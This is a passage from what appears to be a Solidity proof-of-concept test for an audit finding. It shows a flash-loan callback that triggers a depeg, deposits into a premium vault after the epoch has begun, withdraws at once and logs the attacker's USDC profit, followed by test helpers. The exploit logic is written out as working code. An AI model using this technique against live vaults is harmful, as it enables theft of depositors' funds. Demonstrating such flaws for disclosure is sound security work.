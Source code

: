 ```solidity
    address initator,
    bytes calldata
  ) external returns (bool) {
    require(msg.sender == address(pool));
    require(initator == address(this));

    //if we are here, it means we have the amount we asked
    //for from the flashloan contract

    //issue depeg since price of USDC is below strike
    controller.triggerDepeg(depegMarketId, depegEpochId);

    MintableToken(UNDERLYING).approve(depegPremium, 2**256 - 1);

    //epoch has already started so this should not have go through
    //but it does
    VaultV2(depegPremium).deposit(depegEpochId, amounts[0], address(this));

    //attacker is able to withdraw immediately enjoying the
    //TVL shares that was meant for the legitimate INSURANCE_BUYER
    VaultV2(depegPremium).withdraw(
      depegEpochId,
      amounts[0],
      address(this),
      address(this)
    );

    //based on our constants, in this example, attacker walks
    //away with $25,911 USDC in profit
    MintableToken(UNDERLYING).approve(address(pool), amounts[0] + premiums[0]);
    console2.log(
      "ATTACKER profited these many USDC:",
      MintableToken(USDC_TOKEN).balanceOf(address(this)) / 10**6
    );

    return true;
  }

  function deposit_premium(address as_user, uint256 amount) internal {
    vm.startPrank(as_user);
    deal(UNDERLYING, as_user, amount);
    MintableToken(UNDERLYING).approve(depegPremium, 2**256 - 1);
    VaultV2(depegPremium).deposit(depegEpochId, amount, as_user);

    vm.stopPrank();
  }

  function deposit_collateral(address as_user, uint256 amount) internal {
    vm.startPrank(as_user);
    deal(UNDERLYING, as_user, amount);
    MintableToken(UNDERLYING).approve(depegCollateral, 2**256 - 1);
    VaultV2(depegCollateral).deposit(depegEpochId, amount, as_user);
    vm.stopPrank();
  }

  function withdraw_premium(address as_user, uint256 amount) internal {
    vm.startPrank(as_user);
    VaultV2(depegPremium).withdraw(depegEpochId, amount, as_user, as_user);
    vm.stopPrank();
  }

  function withdraw_collateral(address as_user, uint256 amount) internal {
    vm.startPrank(as_user);
```